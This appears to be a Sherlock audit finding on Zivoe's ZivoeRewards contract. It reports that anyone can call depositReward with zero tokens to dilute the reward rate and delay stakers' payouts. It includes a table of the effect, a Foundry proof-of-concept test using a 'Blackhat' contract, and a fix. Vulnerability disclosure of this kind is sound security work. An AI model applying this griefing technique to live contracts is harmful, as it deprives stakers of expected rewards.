 Petite Paisley Newt

medium

# Malicious actors can manipulate ZVE staking rewards, extending the time to accrue the whole reward

## Summary

[The function](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228) `depositReward` in `ZivoeRewards` can be called by anyone, making anyone available to deposit new rewards. However, the formula to calculate the new reward rate is an average of remaining rewards and new rewards divided by reward duration, splitting rewards remaining for the current epoch over a new epoch.

## Vulnerability Detail

Users can deposit any reward token amount to the `ZivoeRewards` contract. The new reward rate will then be calculated [here](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L237) as a sum of original rewards to be distributed and new rewards divided by the reward duration (which is a value set when adding the specific reward token).

If we assume 1e24 reward tokens were deposited to the contract and the `rewardsDuration` is set to 30 days, depositing 0 rewards every 24 hours can have the following results:

| day | new reward rate | original reward | accumulated | % original | % total |
| --- | --------------- | --------------- | ----------- | ---------- | ------- |
| 0   | 3,85802E+17     | 0               | 0           | 100,00%    | 0,00%   |
| 1   | 3,72942E+17     | 3,33333E+22     | 3,33333E+22 | 96,67%     | 3,33%   |
| ... | ...             | ...             | ...         | ...        | ...     |
| 15  | 2,32015E+17     | 5E+23           | 3,98617E+23 | 60,14%     | 39,86%  |
| ... | ...             | ...             | ...         | ...        | ...     |
| 30  | 1,3953E+17      | 1E+24           | 6,38338E+23 | 36,17%     | 63,83%  |
| ... | ...             | ...             | ...         | ...        | ...     |
| 60  | 5,04626E+16     | 2E+24           | 8,69201E+23 | 13,08%     | 86,92%  |
| ... | ...             | ...             | ...         | ...        | ...     |
| 68  | 3,84754E+16     | 2,26667E+24     | 9,00272E+23 | 9,97%      | 90,03%  |

This table shows that depositing 0 rewards after 24 hours will cut the original reward rate to 96,67%. After 30 days, only 63,83% of the total reward (which was supposed to be claimed by now) can be claimed. Continuing like this will make it so that after 68 days, only 90% of the original reward can be claimed by stakers (although all of it should have been claimed on day 30).

- **day**: days passed since start
- **new reward rate**: new reward rate after depositing 0 rewards on that day (or original rate if day = 0)
- **original reward**: how much rewards should have been available by that day
- **accumulated**: how much rewards can be claimed on that day in reality
- **% original**: the reward rate compared to the original reward rate
- **% total**: the total reward available to be claimed compared to the original total reward

## Impact

Malicious actors can significantly extend the total time until all the staking rewards are distributed.

## Code Snippet

This test added to [Test_ZivoeRewards](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewards.sol) shows that depositing 0 rewards by a malicious actor extends the staking period by another 30 days and cuts the current reward rate in half.

```Solidity
    function test_depositZeroRewardsWillDecreaseRewards() public {
        uint256 deposit = 1e24;

        // bob will deposit 1e24 DAI as rewards
        mint("DAI", address(bob), deposit);
        assert(bob.try_approveToken(DAI, address(stZVE), deposit));
        assert(bob.try_depositReward(address(stZVE), DAI, deposit));

        // sam stakes their tokens
        assert(
            sam.try_approveToken(
                address(ZVE),
                address(stZVE),
                IERC20(address(ZVE)).balanceOf(address(sam))
            )
        );
        assert(
            sam.try_stake(
                address(stZVE),
                IERC20(address(ZVE)).balanceOf(address(sam))
            )
        );

        (, , uint rewardRateStart, , ) = stZVE.rewardData(DAI);

        hevm.warp(block.timestamp + 15 days);
        uint samRewardAfter15days = stZVE.earned(address(sam), DAI);

        (, , uint rewardRateBeforeAttack, , ) = stZVE.rewardData(DAI);
        // blackhat will deposit 0 tokens and lower the reward rate
        Blackhat blackHat = new Blackhat();
        assert(blackHat.try_depositReward(address(stZVE), DAI, 0));

        (, , uint rewardRateAfterAttack, , ) = stZVE.rewardData(DAI);

        // reward rate before attack is the same as the reward rate at the beginning
        assertEq(rewardRateStart, rewardRateBeforeAttack);
        // reward rate after attack will be less as the reward rate before attack
        assertLt(rewardRateAfterAttack, rewardRateBeforeAttack);

        //when other 15 days pass, sam should have at least 2x the rewards as after 15 days, but that is not true
        hevm.warp(block.timestamp + 15 days);
        uint samRewardAfter30days = stZVE.earned(address(sam), DAI);
        assertLt(samRewardAfter30days, 2 * samRewardAfter15days);
    }
```

## Tool used

Foundry, Manual review, Spreadsheets

## Recommendation

Consider changing the formula so that the reward rate for the remaining time stays the same. If this formula was intentional, consider adding access control to the deposit reward function, so only privileged users can call it.
